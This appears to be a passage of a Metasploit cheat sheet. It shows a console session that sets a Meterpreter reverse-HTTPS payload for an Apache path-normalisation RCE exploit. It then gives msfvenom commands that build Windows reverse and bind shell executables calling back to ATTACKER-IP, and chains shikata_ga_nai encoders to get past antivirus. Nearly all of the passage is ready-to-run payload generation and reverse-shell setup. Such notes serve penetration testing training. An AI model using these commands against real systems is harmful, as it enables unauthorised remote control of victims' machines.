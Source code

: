 Meterpreter HTTPS

```shell
msf6 exploit(multi/http/apache_normalize_path_rce) >
show payloads

set payload payload/linux/x64/meterpreter_reverse_https
show options

  Payload options (linux/x64/meterpreter_reverse_https):

  Name   Current Setting  Required  Description
  ----   ---------------  --------  -----------
  LHOST  192.168.119.2    yes       The local listener hostname
  LPORT  4444             yes       The local listener port
  LURI                    no        The HTTP Path, "/" by default

run
```

## Executeable Payloads

Metasploit provides a standalone (msfvenom)[https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html] to create various types of payloads for different platforms. The tool msfvenom allows to create executeable files for client-side attacks and *webshells* to exploit website vulnerabilities.s

Basic usage

```shell
# list built-in payload
msfvenom -l payloads --platform windows --arch x64

# list payload options
msfvenom -p windows/meterpreter/reverse_tcp --list-options

# use built-in payload
msfvenom -p windows/meterpreter/reverse_tcp lhost=ATTACKER-IP lport=4444 -f exe -o /tmp/my_payload.exe
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=ATTACKER-IP LPORT=443 -f exe -o met.exe

# use '-' to load custom payloads
cat payload_file.bin | ./msfvenom --payload - --arch x86 --platform win --encoder x86/shikata_ga_nai --format raw

# use '--bad-chars' to avoid bad characters like '\x00'
msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw

# use '--nopsled' Prepend a nopsled of [length] size on to the payload
msfvenom -p windows/meterpreter/bind_tcp --nosled 90 -f exe

# chain msfvenom payload outputs
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```
